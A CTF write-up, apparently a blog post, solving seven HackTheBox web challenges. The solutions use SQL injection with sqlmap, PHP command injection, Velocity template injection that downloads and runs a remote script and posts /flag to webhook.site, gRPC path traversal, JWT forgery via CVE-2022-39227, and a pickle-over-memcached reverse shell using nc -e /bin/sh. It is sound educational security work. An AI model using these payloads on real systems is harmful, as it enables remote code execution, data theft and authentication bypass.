




<h2>Table of Contents</h2>
- TOC	- TOC
{:toc}

### **Flag Command - Web**

**Solving Scenario:**\
On the web, there are three JavaScript files:
- command.js
- main.js
- game.js

Focus on the CheckMessage() function in the main.js file, which is responsible for making a POST request to the /api/monitor endpoint with the request body containing "command". Additionally, there is an if condition availableOptions["secret"] that retrieves the value from the secret:

``` javascript
async function CheckMessage() {
    fetchingResponse = true;
    currentCommand = commandHistory[commandHistory.length - 1];

    if (availableOptions[currentStep].includes(currentCommand) || availableOptions['secret'].includes(currentCommand)) {
        await fetch('/api/monitor', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify({ 'command': currentCommand })
        })
            .then((res) => res.json())
            .then(async (data) => {
                console.log(data)
                await displayLineInTerminal({ text: data.message });

                if(data.message.includes('Game over')) {
                    playerLost();
                    fetchingResponse = false;
                    return;
                }

                if(data.message.includes('HTB{')) {
                    playerWon();
                    fetchingResponse = false;

                    return;
                }

                if (currentCommand == 'HEAD NORTH') {
                    currentStep = '2';
                }
                else if (currentCommand == 'FOLLOW A MYSTERIOUS PATH') {
                    currentStep = '3'
                }
                else if (currentCommand == 'SET UP CAMP') {
                    currentStep = '4'
                }

                let lineBreak = document.createElement("br");


                beforeDiv.parentNode.insertBefore(lineBreak, beforeDiv);
                displayLineInTerminal({ text: '<span class="command">You have 4 options!</span>' })
                displayLinesInTerminal({ lines: availableOptions[currentStep] })
                fetchingResponse = false;
            });


    }
    else {
        displayLineInTerminal({ text: "You do realise its not a park where you can just play around and move around pick from options how are hard it is for you????" });
        fetchingResponse = false;
    }
}
```

Check the script at the bottom of main.js, where there is a GET request to the /api/options endpoint, which is then stored in the variable availableOptions. This endpoint serves to list available commands, including the secret value.

``` javascript
const fetchOptions = () => {
    fetch('/api/options')
        .then((data) => data.json())
        .then((res) => {
            availableOptions = res.allPossibleCommands;

        })
        .catch(() => {
            availableOptions = undefined;
        })
}
```

Here is the list of available commands, including the secret:



Getting the flag with the secret command "Blip-blop, in a pickle with a hiccup! Shmiggity-shmack":


**Flag**: HTB{D3v3l0p3r_t00l5_4r3_b35t_wh4t_y0u_Th1nk??!}

**================================================================================================**

## **KORP Terminal - Web**

**Solving Scenario:**\
Trigger the login page error by sending 'a# as the username. The response should display an SQL error indicating vulnerability to SQL Injection.


Exploit using SQLmap with the input file containing the above POST request.
Command: "sqlmap -r login.txt --dbs --ignore-code 401".

Database:


Tables korp_terminal:



Dump table users:


Cracking admin hash:


Login with credentials admin:password123 and retrieve the flag:



**Flag**: HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}

**================================================================================================**

## **TimeKORP - Web**

**Solving Scenario:**\
Upon analyzing the source code, it is found that the TimeModel.php model is vulnerable to PHP Command Injection because it uses the exec() function constructed from user input (TimeController.php) with the "format" parameter.

TimeModel.php:
``` php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

TimeController.php:
``` php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

Validation of vulnerability:


Read the flag at /flag as per the Dockerfile:


**Flag**: HTB{t1m3_f0r_th3_ult1m4t3_pwn4g3}

**================================================================================================**

## **Labyrinth Linguist - Web**

**Solving Scenario:**\
Upon analyzing the source code, it is observed that in Main.java, the request parameter "text" will be stored in textString, and then this textString will be loaded into index.html using the Velocity template:

``` java
	@RequestMapping("/")
	@ResponseBody
	String index(@RequestParam(required = false, name = "text") String textString) {
		if (textString == null) {
			textString = "Example text";
		}

		String template = "";

        try {
            template = readFileToString("/app/src/main/resources/templates/index.html", textString);
        } catch (IOException e) {
            e.printStackTrace();
        }

		RuntimeServices runtimeServices = RuntimeSingleton.getRuntimeServices();
		StringReader reader = new StringReader(template);

		org.apache.velocity.Template t = new org.apache.velocity.Template();
		t.setRuntimeServices(runtimeServices);
		try {

			t.setData(runtimeServices.parse(reader, "home"));
			t.initDocument();
			VelocityContext context = new VelocityContext();
			context.put("name", "World");

			StringWriter writer = new StringWriter();
			t.merge(context, writer);
			template = writer.toString();

		} catch (ParseException e) {
			e.printStackTrace();
		}

		return template;
	}
```

The readFileToString function will replace "TEXT" in the index.html file and render textString:

``` java
	public static String readFileToString(String filePath, String replacement) throws IOException {
        StringBuilder content = new StringBuilder();
        BufferedReader bufferedReader = null;

        try {
            bufferedReader = new BufferedReader(new FileReader(filePath));
            String line;
            
            while ((line = bufferedReader.readLine()) != null) {
                line = line.replace("TEXT", replacement);
                content.append(line);
                content.append("\n");
            }
        } finally {
            if (bufferedReader != null) {
                try {
                    bufferedReader.close();
                } catch (IOException e) {
                    e.printStackTrace();
                }
            }
        }

        return content.toString();
    }
```

The source code analysis is vulnerable to Server-Side Template Injection (SSTI) in Velocity:

Here is the exploit I used:

``` python
import requests
from urllib.parse import *

URL = "http://83.136.254.223:48094/"

class Exploit:
	def __init__(self, url=URL):
		self.url = url

	def exp(self):
		payload = """
		#set($s=\"\") 
		#set($stringClass=$s.getClass()) 
		#set($runtime=$stringClass.forName(\"java.lang.Runtime\").getRuntime()) 
		#set($process=$runtime.exec(\"curl -O https://faf0-182-253-54-11.ngrok-free.app/banua.sh\")) 
		#set($process=$runtime.exec(\"chmod +x banua.sh\")) 
		#set($process=$runtime.exec(\"sh banua.sh\")) 
		#set($null=$process.waitFor() )
		"""
		data = {"text": payload}
		res = requests.post(self.url, data=data)

		return res

if __name__ == "__main__":
	run = Exploit()
	print(run.exp())
```

Content of the banua.sh file:

``` sh
cat /flag* > /tmp/flag.txt && curl -d @/tmp/flag.txt https://webhook.site/e361f2f5-cc9c-45e5-959e-40639c22efab
```

Run the exploit. If the request does not go through, try running it again:



**Flag**: HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}

**================================================================================================**

## **Testimonial - Web**

**Solving Scenario:**\
Source code analysis reveals that the vulnerable code is in the grpc.go file, specifically in the os.WriteFile function with the filename "customer" and the file content being "testimonial".

grpc.go file:

``` go
func (s *server) SubmitTestimonial(ctx context.Context, req *pb.TestimonialSubmission) (*pb.GenericReply, error) {
	if req.Customer == "" {
		return nil, errors.New("Name is required")
	}
	if req.Testimonial == "" {
		return nil, errors.New("Content is required")
	}

	err := os.WriteFile(fmt.Sprintf("public/testimonials/%s", req.Customer), []byte(req.Testimonial), 0644)
	if err != nil {
		return nil, err
	}

	return &pb.GenericReply{Message: "Testimonial submitted successfully"}, nil
}
```

home.go file handles the submission process when a customer submits a testimonial.

``` go
package handler

import (
	"htbchal/client"
	"htbchal/view/home"
	"net/http"
)

func HandleHomeIndex(w http.ResponseWriter, r *http.Request) error {
	customer := r.URL.Query().Get("customer")
	testimonial := r.URL.Query().Get("testimonial")
	if customer != "" && testimonial != "" {
		c, err := client.GetClient()
		if err != nil {
			http.Error(w, err.Error(), http.StatusInternalServerError)

		}

		if err := c.SendTestimonial(customer, testimonial); err != nil {
			http.Error(w, err.Error(), http.StatusInternalServerError)

		}
	}
	return home.Index().Render(r.Context(), w)
}

```

The testimonial submission request process uses the sendTestimonial function found in the client.go file with the code below. In the sendTestimonial function, there is a blacklist of characters to prevent Path Traversal when submitting a testimonial.

client.go file:

``` go
func (c *Client) SendTestimonial(customer, testimonial string) error {
	ctx := context.Background()
	// Filter bad characters.
	for _, char := range []string{ "/", "\\", ":", "*", "?", "\"", "<", ">", "|", "."} {
		customer = strings.ReplaceAll(customer, char, "")
	}

	_, err := c.SubmitTestimonial(ctx, &pb.TestimonialSubmission{Customer: customer, Testimonial: testimonial})
	return err
}
```

Flow to obtain the flag:
1. Path Traversal Overwrite File /view/home/index.templ
2. Access the View index.templ

Exploit by directly calling the SubmitTestimonial method via gRPC to bypass the Path Traversal filter in the SendTestimonial function. Slightly modify the index.templ file to be used for overwriting /view/home/index.templ.

The modified index.templ file will overwrite and read the flag, which is located at "/" (entrypoint.sh file):

``` go
func GetTestimonials() []string {
	fsys := os.DirFS("/")	
	files, err := fs.ReadDir(fsys, ".")		
	if err != nil {
		return []string{fmt.Sprintf("Error reading testimonials: %v", err)}
	}
	var res []string
	for _, file := range files {
		fileContent, _ := fs.ReadFile(fsys, file.Name())
		res = append(res, string(fileContent))		
	}
	return res
}
```

Here is the solver:

``` go
package main

import (
	"context"
	"fmt"
	"log"
	"io/ioutil"

	"google.golang.org/grpc"
	"htbchal/pb"
)

func main() {
	testimonialData, err := ioutil.ReadFile("index.templ")
	if err != nil {
		log.Fatalf("failed to read file: %v", err)
	}
	
	conn, err := grpc.Dial("83.136.252.96:51204", grpc.WithInsecure())
	if err != nil {
		log.Fatalf("did not connect: %v", err)
	}
	defer conn.Close()
	c := pb.NewRickyServiceClient(conn)

	// Call SubmitTestimonial method.
	reply, err := c.SubmitTestimonial(context.Background(), &pb.TestimonialSubmission{
		Customer:    "../../view/home/index.templ",
		Testimonial: string(testimonialData),
	})
	if err != nil {
		log.Fatalf("could not submit: %v", err)
	}
	fmt.Println("Server Response:", reply.Message)
}
```

Save the solver file inside the challenge source code folder so that the pb library can be imported.
Run with the command "go run call.go".
Refresh the web page, and the flag will be obtained.


**Flag**: HTB{w34kly_t35t3d_t3mplate5}

**================================================================================================**

## **LockTalk - Web**

**Solving Scenario:**\
Source code analysis reveals that the requirements.txt file uses the python_jwt library version 3.3.3, which is vulnerable to CVE-2022-39227.

In the haproxy.cfg config file, there is access protection to the /api/v1/get_ticket endpoint:

``` sh
frontend haproxy
    bind 0.0.0.0:1337
    default_backend backend

    http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }
```

In the routes.py API file, the flag can be obtained with GET requests to the /api/v1/flag endpoint. However, a JWT with an administrator role is required:

``` python
@api_blueprint.route('/flag', methods=['GET'])
@authorize_roles(['administrator'])
def flag():
    return jsonify({'message': current_app.config.get('FLAG')}), 200
```

To obtain the JWT token, you need to make GET requests to the /api/v1/get_ticket endpoint, and you will receive a JWT token with a payload role as a guest:

``` python
@api_blueprint.route('/get_ticket', methods=['GET'])
def get_ticket():

    claims = {
        "role": "guest", 
        "user": "guest_user"
    }
    
    token = jwt.generate_jwt(claims, current_app.config.get('JWT_SECRET_KEY'), 'PS256', datetime.timedelta(minutes=60))
    return jsonify({'ticket: ': token})
```

The exploitation flow to obtain the flag is as follows:
1. Generate a JWT Token with access to /api/v1/get_ticket, bypassing haproxy with /api/v1/../v1/get_ticket
2. JWT Token forgery with CVE-2022-39227 to change the role to administrator
3. Access the /api/v1/flag endpoint

Here is the solver:

``` python
import requests
import json
import subprocess

URL = "http://94.237.57.155:36254"

class Exploit:
	def __init__(self, url=URL):
		self.url = url

	def generateToken(self):
		req = requests.get(self.url + "/api/v1/%2e%2e/v1/get_ticket")
		data = json.loads(req.text)

		return data["ticket: "]

	def tokenForge(self):
		exp = subprocess.check_output([f"python3 CVE-2022-39227/cve_2022_39227.py -j {self.generateToken()} -i 'role=administrator'"],shell=True).decode()
		data = exp.split("\n\n")[1].split("\n")[1]
		
		return data

	def getFlag(self):
		flag = subprocess.check_output([f"curl -s -XGET {self.url}/api/v1/flag -H 'Authorization: {str(self.tokenForge())}'"],shell=True)
		
		return json.loads(flag.decode())


if __name__ == "__main__":
	run = Exploit()
	print(run.getFlag())
```

**Flag**: HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}

**================================================================================================**

## **SerialFlow - Web**

**Solving Scenario:**\
In the app.py file, it is known that app.config utilizes session memcached with the pylibmc library:
``` python
app.config["SESSION_TYPE"] = "memcached"
app.config["SESSION_MEMCACHED"] = pylibmc.Client(["127.0.0.1:11211"])
app.config.from_object(__name__)
```

When making a request to the web, the first process that runs is setting the session:
``` python
@app.before_request
def before_request():
    if session.get("session") and len(session["session"]) > 86:
        session["session"] = session["session"][:86]
```

There is only one endpoint "/set" on the web which functions to set session["uicolor"].
``` python
@app.route("/set")
def set():
    uicolor = request.args.get("uicolor")

    if uicolor:
        session["uicolor"] = uicolor
    
    return redirect("/")
```

Interestingly, because the Flask web app uses pylibmc memcached, after browsing, an article [D4D blog](https://btlfry.gitlab.io/notes/posts/memcached-command-injections-at-pylibmc/) was found discussing the exploitation of pylibmc memcached and its vulnerable to Command Injection.

Previously, an attempt was made to inject payload into session["uicolor"], but it failed because it was not vulnerable to CRLF.

After re-analyzing the source code, it was discovered that we can inject payloads directly into the session, but they are limited to 86 characters in length.

Let's proceed to exploit it by performing a reverse shell:

Solver:
``` python
import pickle
import os
import requests

URL = "http://83.136.253.251:31432/"

class RCE:
    def __reduce__(self):
        cmd = ('nc 0.tcp.ap.ngrok.io 13906 -e /bin/sh')
        return os.system, (cmd,)

class Exploit():
    def __init__(self, url=URL):
        self.url = url

    def generate_exploit(self):
        payload = pickle.dumps(RCE(), 0)
        payload_size = len(payload)
        cookie = b'137\r\nset session:10 0 2592000 '
        cookie += str.encode(str(payload_size))
        cookie += str.encode('\r\n')
        cookie += payload
        cookie += str.encode('\r\n')
        cookie += str.encode('get session:10')

        pack = ''
        for x in list(cookie):
            if x > 64:
                pack += oct(x).replace("0o","\\")
            elif x < 8:
                pack += oct(x).replace("0o","\\00")
            else:
                pack += oct(x).replace("0o","\\0")

        return f"\"{pack}\""

    def exploit(self):
        cookie = {"session": self.generate_exploit()}
        req = requests.get(self.url, cookies=cookie)
        req = requests.get(self.url, cookies=cookie)

        return req.status_code

if __name__ == "__main__":
    run = Exploit()
    print(run.exploit())
```


**Flag**: HTB{y0u_th0ught_th15_wou1d_b3_s1mpl3?}

Thank you for reading this article, i hope it was helpful :-D\
**Follow me on: [Linkedin], [Medium], [Github], [Youtube], [Instagram]**

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn
